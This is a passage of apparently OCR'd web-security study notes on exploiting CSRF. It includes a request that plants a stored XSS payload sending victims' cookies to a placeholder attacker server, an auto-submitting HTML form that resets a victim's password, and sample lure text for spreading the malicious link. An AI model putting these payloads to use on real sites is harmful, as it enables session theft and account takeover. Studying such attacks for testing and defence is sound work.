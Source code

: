   - If this endpoint is vulnerable to CSRF, say, because omitting the token parameter in the request will bypass CSRF protection, the following request could work:

  ```
  POST /change_account_nickname
  Host: finance.example.com
  Cookie: session_cookie=YOUR_SESSION_COOKIE

  (POST request body)
  account=0
  &nickname="<script>document.location='http://attacker_server_ip/
  cookie_stealer.php?c='+document.cookie;</script>"
  ```

  - This request will change the user's account nickname and store the XSS payload there. The next time a user logs into the account and views their dashboard, they'll trigger the XSS.

_Take Over User Accounts by Using CSRF_

- Taking over accounts via CSRF isn't that uncommon. All you need is a CSRF vulnerability in a critical functionality like password creation, password changes, changing email addresses, resetting passwords.
- A good place to look for this is on site that allow users to sign up using social media accounts which means they won't need to set a password. These sites will also often give users who've signed up via social media accounts the option of setting a password via a request similar to:

  ```
  POST /set_password
  Host: example.com
  Cookie: session_cookie=YOUR_SESSION_COOKIE

  (POST request body)
  password=XXXXX&csrf_token=871caef0757a4ac9691aceb9aad8b65b
  ```

  - Because they originally signed up via social media, there is no "old password" to set the new password.
  - If the endpoint is vulnerable to CSRF, all an attacker has to do is post a link to this HTML page somewhere that the user of the site might frequent, and they can automatically assign the password of any user who visists the malicious page:

  ```
  <html>
    <form method="POST" action="https://email.example.com/set_password" id="csrf-form">
      <input type="text" name="new_password" value="this_account_is_now_mine">
      <input type="text" name="csrf_token" value="">
      <input type='submit' value="Submit">
    </form>
    <script>document.getElementById("csrf-form").submit():</script>
  </html>
  ```

**Delivering the CSRF Payload**

1. The easiest way to deliver a payload is to trick users into visiting a malicious link by posting them on forums or social media platforms:
   "Visit this page to get a discount on your example.com subscription:
   https://example.attacker.com"
